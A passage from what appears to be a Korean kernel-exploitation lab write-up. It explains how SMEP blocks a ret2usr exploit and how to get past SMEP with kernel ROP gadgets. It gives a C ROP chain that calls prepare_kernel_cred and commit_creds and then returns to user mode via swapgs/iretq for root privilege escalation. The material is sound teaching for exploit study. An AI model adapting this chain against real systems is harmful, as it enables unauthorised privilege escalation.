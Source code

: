 SMEP가 활성화되면 커널에서 사용자 공간의 코드를 실행하는 것이 불가능해진다. 옵션을 활성화한 후 기존의 exploit 코드를 그대로 실행하면

![smep_crash.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/smep_crash.png)

위와 같이 kernel panic이 발생한다. 맨 첫 줄에서 `unable to execute userspace code (SMEP?)`라는 메시지로부터 기존의 exploit 코드가 유저 영역의 `lpe()`함수로 실행 흐름을 옮기기 때문에 이 코드를 실행할 수 없어 kernel panic이 발생했음을 알 수 있다.

이를 우회하기 위해 NX 우회를 위해 했던 것처럼 ROP를 고려해볼 수 있다. 커널의 크기는 매우 크기 때문에 일반적인 바이너리보다 사용할 수 있는 가젯의 개수가 훨씬 많다는 점을 생각하면 충분히 가능하다. 이를 위해 bzImage로부터 vmlinux를 추출하고, ROPGadget을 이용해 사용할 수 있는 가젯들을 뽑는다.

사용해야 하는 가젯은

1. `commit_creds()`, `prepare_kernel_cred()` 호출에 필요한 첫 번째 인자를 세팅할 수 있는 `pop rdi; ret`
2. `prepare_kernel_cred()` 함수의 반환값을 rdi로 옮겨주기 위한 `mov rdi, rax; ret`
3. `swapgs`와 `iretq`


위 가젯들은 쉽게 탐색이 가능하다. [^1]

<p align="center">
    <img src="/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/gadget_1.png">
    <img src="/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/gadget_2.png">
</p>

다만 `mov rdi, rax` 가젯의 경우 뒤에 `rep movsq qword ptr [rdi], qword ptr [rsi]`가 존재하므로 `rep`가 실행되지 않도록 `rcx`에 미리 0을 넣어두어야 한다. 이를 위해서 추가적으로 `pop rcx; ret`를 찾아야 하고, 이 역시도 쉽게 찾을 수 있다. 

이를 활용하면 다음과 같은 payload 구성이 가능하다.

```c
  *chain++ = pop_rdi_ret;
  *chain++ = 0;
  *chain++ = prepare_kernel_cred;
  *chain++ = pop_rcx_ret;
  *chain++ = 0;
  *chain++ = mov_rax_rdi_ret;
  *chain++ = commit_creds;
  *chain++ = swapgs_ret;
  *chain++ = iretq;
  *chain++ = win;
  *chain++ = user_cs;
  *chain++ = user_rflags;
  *chain++ = user_rsp;
  *chain++ = user_ss;
```


[^1]: extract-vmlinux, ROPgadget을 사용했다. 이들의 사용법은 별도의 문서에 정리해 두었다.
[^2]: 전에 만들어 둔 offsetcalc.py를 사용했다. 이 역시도 별도의 문서에 정리해 두었다.